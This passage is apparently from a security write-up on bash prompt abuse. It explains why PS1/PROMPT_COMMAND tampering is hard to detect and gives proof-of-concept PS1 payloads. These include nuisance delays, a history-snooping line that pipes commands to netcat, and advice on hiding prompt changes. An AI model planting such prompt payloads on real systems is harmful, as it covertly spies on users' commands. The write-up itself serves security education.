 Not only are simple detection methods easy to circumvent, but robust detection
methods are hard to create. Indeed, a specific challenge here is that it is
tough to actively monitor these variables from outside the shell itself.
`/proc/<pid>/environ` can helpfully show the shell’s initial environment, but it
only updates when the process starts, and is therefore insufficient. Following
an environment variable directly from outside the shell would probably require
something on the level of a ptrace system call. Now we’re getting into some
pretty invasive monitoring, which is less easy to set up and may entail
significant performance costs. One could indirectly follow environment variables
by periodically exporting the environment to a file, and ensuring a daemon
monitors that file. But even that method suffers from various weaknesses,
especially if it depends on `PROMPT_COMMAND` or `PS1` themselves to do the
exporting. There are open source tools that may be able to monitor a process'
internal environment, but they are untested by this author.

# Mischief

The point is not to present malicious code here, but to provide proof of concept
for non-trivial attacks, such as denial of service, data destruction, or
exfiltration. And while pretty much all of these could be adapted into
`PROMPT_COMMAND`, they are simply shown here in `PS1=` form to highlight command
substitution.

One thing an attacker wouldn’t want to do, would be to make an obvious change to
the appearance of the command prompt itself. The following examples assume a
basic command prompt appearance for simplicity's sake, but a better approach
might involve `PROMPT_COMMAND` capturing the original `PS1` into a backup
variable, so then `PS1` can invoke that backup variable to recreate the original
appearance.

### Examples (i.e. PS1=' ', using single quotes)

Nuisances: Injecting delays, screen clearing pranks

    '$(sleep 2)\u@\h:\w$ '
    '$(clear)\u@\h:\w$ '

Snooping on command history:

    '$(history -a; tail -n 1 ~/.bash_history | nc -q 0 localhost 12345)\u@\h:\w$ '
    # set up a listener on localhost 12345 to snoop on what the user is running.
    # nc -u might be necessary or simpler in some cases, too.

There are limits to how real-time you can snoop. You might expect this would
allow for complete output logging:

    '$([[ -t 1 ]] && exec > >(tee >(nc -q 0 localhost 12345)) 2>&1)\u@\h:\w$ '

But, this does not work. The command is run in a sub-shell, so any output
redirection method that is born there, dies there. This aspect makes it hard, if
not impossible, to use output redirection as intended. (Prove me wrong, though!)
